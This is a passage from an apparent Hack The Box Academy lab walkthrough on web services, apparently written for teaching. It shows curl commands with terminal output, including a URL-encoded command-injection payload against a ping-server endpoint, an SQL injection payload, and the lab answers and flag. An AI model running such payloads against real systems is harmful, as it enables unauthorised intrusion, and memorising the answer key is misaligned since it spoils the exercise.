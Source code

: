 However, when URL encoding it, the payload works successfully:

Code: shell

```shell
curl http://STMIP:3003/ping-server.php/system/cd%20..%20%26%26%20ls
```

```
┌─[us-academy-1]─[10.10.14.50]─[htb-ac413848@htb-q7l0dpr4ul]─[~]
└──╼ [★]$ curl http://10.129.202.133:3003/ping-server.php/system/cd%20..%20%26%26%20ls
nodejs

php
php-sqli
soap-wsdl
```

Answer: `URL Encoding`

# Information Disclosure (with a twist of SQLi)

## Question 1

### "What is the username of the third user (id=3)?"

After spawning the target machine, students need to use `cURL` to invoke a request for `id` number 3 to find its username:

Code: shell

```shell
curl -s -w "\n" http://STMIP:3003/?id=3
```

```
┌─[us-academy-1]─[10.10.14.135]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ curl -s -w "\n" http://10.129.144.205:3003/?id=3

[{"id":"3","username":"WebServices","position":"3"}]
```

Answer: `WebServices`

# Information Disclosure (with a twist of SQLi)

## Question 2

### "Identify the username of the user that has a position of 736373 through SQLi. Submit it as your answer."

Students need to use any SQLi payload such as `'OR 1=1' OR 1` and URL encode it to attain the flag `HTB{THE_FL4G_FOR_SQLI_IS_H3RE}`:

